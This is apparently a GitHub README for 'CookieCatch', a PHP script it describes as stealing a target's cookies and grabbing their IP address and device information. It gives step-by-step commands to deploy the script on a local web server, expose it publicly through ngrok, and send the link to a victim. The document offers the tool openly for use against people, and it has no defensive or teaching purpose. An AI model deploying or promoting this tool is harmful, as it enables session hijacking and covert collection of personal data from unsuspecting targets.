 # CookieCatch
PHP script for stealing cookies, IP grabbing &amp; Device Information. 

CookieCatch will attemp to steal a targets cookies as well as collect information about the device. Outputs are written in both a textfile & SQLite3 database to allow for easy use of collected data in other tools.

Usage:
```
git clone https://github.com/4xx404/CookieCatch
cd CookieCatch
chmod 777 catch.php
mv ~/CookieCatch /var/www/html/
php -S localhost:80
```

Include Ngrok:
```
ngrok http 80
```

Send the link to your target.  
  
Example link using ngrok: http://af9cea23de3.ngrok.io/CookieCatch/
